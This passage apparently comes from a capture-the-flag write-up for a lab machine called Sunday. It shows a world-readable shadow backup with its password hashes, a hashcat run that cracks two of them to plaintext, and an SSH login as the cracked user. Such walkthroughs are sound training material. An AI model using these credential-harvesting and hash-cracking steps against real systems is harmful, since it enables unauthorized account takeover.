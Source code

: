 

## Privesc: sunny to sammy

### Find Backup shadow

Inside `/backup` there's a copy of a `shadow` file that is world
readable:



    sunny@sunday:/backup$ ls -l
    total 2
    -r-x--x--x 1 root root  53 2018-04-24 10:35 agent22.backup
    -rw-r--r-- 1 root root 319 2018-04-15 20:44 shadow.backup

    sunny@sunday:/backup$ cat shadow.backup
    mysql:NP:::::::
    openldap:*LK*:::::::
    webservd:*LK*:::::::
    postgres:NP:::::::
    svctag:*LK*:6445::::::
    nobody:*LK*:6445::::::
    noaccess:*LK*:6445::::::
    nobody4:*LK*:6445::::::
    sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
    sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::



### Break with hashcat

Pulling back shadow.backup and the passwd file, and after using unshadow
to create an unshadow file, john or hashcat can break both hashes.
Here's what the hashcat output looks like (with status messages cleaned
out):



    $ hashcat -m 7400 sunday.hashes /usr/share/wordlists/rockyou.txt --force
    ...[snip]...
    $5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:sunday
    $5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:cooldude!
    ...[snip]...



### User Shell - SSH as sammy / user.txt

Armed with sammy's password, it is now possible to ssh in as sammy:



    root@kali# ssh -p 22022 sammy@10.10.10.76
    Password:
    Last login: Sat May  5 20:06:34 2018 from 10.10.14.112
    Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
    sammy@sunday:~$
